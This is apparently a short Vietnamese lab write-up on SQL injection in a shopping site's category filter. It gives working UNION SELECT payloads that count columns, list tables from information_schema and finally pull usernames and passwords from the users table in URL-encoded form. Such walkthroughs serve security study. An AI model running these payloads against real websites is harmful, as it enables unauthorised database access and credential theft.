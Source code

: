 Tổng quan:

- Web bán hàng quen thuộc, với việc lọc sản phẩm theo category dẫn đến truy vấn SQL và lỗ hổng SQLi
- **' UNION SELECT null, null--** chạy tốt → Truy vấn gốc trả về 2 cột thông tin cho mỗi sản phẩm
- Xác định tiếp được server sử dụng Postgre:

![image.png](image%209.png)

Khai thác:

- Truy tìm thông tin về bảng user trong DB:

**' UNION SELECT table_name, null FROM information_schema.tables--**

![image.png](image%2010.png)

- Truy tìm thông tin các cột của bảng user:

![image.png](image%2011.png)

- Khai thác username và password:

category=%27%20UNION%20SELECT%20username%2C%20password%20FROM%20users%2D%2D
